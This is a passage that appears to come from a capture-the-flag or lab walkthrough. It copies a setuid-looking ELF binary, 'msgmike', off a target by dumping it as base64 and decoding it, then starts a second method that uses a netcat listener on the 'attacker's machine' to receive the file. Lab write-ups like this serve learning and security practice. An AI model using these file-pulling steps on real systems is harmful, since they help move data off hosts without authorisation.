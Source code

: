 ```bash
APQBAACwhAQIYQAAABIADQAEAgAAZJcECAAAAAAQABkACQIAAGCDBAgAAAAAEgANABACAAA4hQQI
BAAAABEADwAXAgAAYJcECAAAAAAQABkAIwIAAFuEBAhTAAAAEgANACgCAAAAAAAAAAAAABIAAAA8
AgAAAAAAAAAAAAAgAAAAUAIAAGCXBAgAAAAAEQIYAFwCAAAAAAAAAAAAACAAAAB2AgAA2IIECAAA
AAASAAsAAGNydHN0dWZmLmMAX19KQ1JfTElTVF9fAGRlcmVnaXN0ZXJfdG1fY2xvbmVzAHJlZ2lz
dGVyX3RtX2Nsb25lcwBfX2RvX2dsb2JhbF9kdG9yc19hdXgAY29tcGxldGVkLjYyNzkAX19kb19n
bG9iYWxfZHRvcnNfYXV4X2ZpbmlfYXJyYXlfZW50cnkAZnJhbWVfZHVtbXkAX19mcmFtZV9kdW1t
eV9pbml0X2FycmF5X2VudHJ5AG1zZ21pa2UuYwBfX0ZSQU1FX0VORF9fAF9fSkNSX0VORF9fAF9f
aW5pdF9hcnJheV9lbmQAX0RZTkFNSUMAX19pbml0X2FycmF5X3N0YXJ0AF9HTE9CQUxfT0ZGU0VU
X1RBQkxFXwBfX2xpYmNfY3N1X2ZpbmkAX0lUTV9kZXJlZ2lzdGVyVE1DbG9uZVRhYmxlAF9feDg2
LmdldF9wY190aHVuay5ieABkYXRhX3N0YXJ0AF9lZGF0YQBfZmluaQBfX2RhdGFfc3RhcnQAc3lz
dGVtQEBHTElCQ18yLjAAX19nbW9uX3N0YXJ0X18AX19kc29faGFuZGxlAF9JT19zdGRpbl91c2Vk
AHNldHJldWlkQEBHTElCQ18yLjAAX19saWJjX3N0YXJ0X21haW5AQEdMSUJDXzIuMABfX2xpYmNf
Y3N1X2luaXQAX2VuZABfc3RhcnQAX2ZwX2h3AF9fYnNzX3N0YXJ0AG1haW4Ac2V0cmVnaWRAQEdM
SUJDXzIuMABfSnZfUmVnaXN0ZXJDbGFzc2VzAF9fVE1DX0VORF9fAF9JVE1fcmVnaXN0ZXJUTUNs
b25lVGFibGUAX2luaXQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABsA
AAABAAAAAgAAADSBBAg0AQAAEwAAAAAAAAAAAAAAAQAAAAAAAAAjAAAABwAAAAIAAABIgQQISAEA
ACAAAAAAAAAAAAAAAAQAAAAAAAAAMQAAAAcAAAACAAAAaIEECGgBAAAkAAAAAAAAAAAAAAAEAAAA
AAAAAEQAAAD2//9vAgAAAIyBBAiMAQAAIAAAAAUAAAAAAAAABAAAAAQAAABOAAAACwAAAAIAAACs
gQQIrAEAAHAAAAAGAAAAAQAAAAQAAAAQAAAAVgAAAAMAAAACAAAAHIIECBwCAABeAAAAAAAAAAAA
AAABAAAAAAAAAF4AAAD///9vAgAAAHqCBAh6AgAADgAAAAUAAAAAAAAAAgAAAAIAAABrAAAA/v//
bwIAAACIggQIiAIAACAAAAAGAAAAAQAAAAQAAAAAAAAAegAAAAkAAAACAAAAqIIECKgCAAAIAAAA
BQAAAAAAAAAEAAAACAAAAIMAAAAJAAAAQgAAALCCBAiwAgAAKAAAAAUAAAAMAAAABAAAAAgAAACM
AAAAAQAAAAYAAADYggQI2AIAACMAAAAAAAAAAAAAAAQAAAAAAAAAhwAAAAEAAAAGAAAAAIMECAAD
AABgAAAAAAAAAAAAAAAQAAAABAAAAJIAAAABAAAABgAAAGCDBAhgAwAAwgEAAAAAAAAAAAAAEAAA
AAAAAACYAAAAAQAAAAYAAAAkhQQIJAUAABQAAAAAAAAAAAAAAAQAAAAAAAAAngAAAAEAAAACAAAA
OIUECDgFAAAfAAAAAAAAAAAAAAAEAAAAAAAAAKYAAAABAAAAAgAAAFiFBAhYBQAALAAAAAAAAAAA
AAAABAAAAAAAAAC0AAAAAQAAAAIAAACEhQQIhAUAALwAAAAAAAAAAAAAAAQAAAAAAAAAvgAAAA4A
AAADAAAAQJYECEAGAAAEAAAAAAAAAAAAAAAEAAAAAAAAAMoAAAAPAAAAAwAAAESWBAhEBgAABAAA
AAAAAAAAAAAABAAAAAAAAADWAAAAAQAAAAMAAABIlgQISAYAAAQAAAAAAAAAAAAAAAQAAAAAAAAA
2wAAAAYAAAADAAAATJYECEwGAADoAAAABgAAAAAAAAAEAAAACAAAAOQAAAABAAAAAwAAADSXBAg0
BwAABAAAAAAAAAAAAAAABAAAAAQAAADpAAAAAQAAAAMAAAA4lwQIOAcAACAAAAAAAAAAAAAAAAQA
AAAEAAAA8gAAAAEAAAADAAAAWJcECFgHAAAIAAAAAAAAAAAAAAAEAAAAAAAAAPgAAAAIAAAAAwAA
AGCXBAhgBwAABAAAAAAAAAAAAAAAAQAAAAAAAAD9AAAAAQAAADAAAAAAAAAAYAcAADkAAAAAAAAA
AAAAAAEAAAABAAAAEQAAAAMAAAAAAAAAAAAAAJkHAAAGAQAAAAAAAAAAAAABAAAAAAAAAAEAAAAC
AAAAAAAAAAAAAACgCAAAUAQAAB0AAAAtAAAABAAAABAAAAAJAAAAAwAAAAAAAAAAAAAA8AwAAHwC
AAAAAAAAAAAAAAEAAAAAAAAA
```

We copy this base64 string to a file called `msgmike.b64` on our machine and then we can decode it:

```bash
$ cat msgmike.b64 | base64 -d > msgmike.bin
$ file msgmike.bin 
msgmike.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
```

#### Method #2: nc

- Attacker's machine:

```bash
$ nc -l -p 4444  > msgmike < /dev/null
^C
```

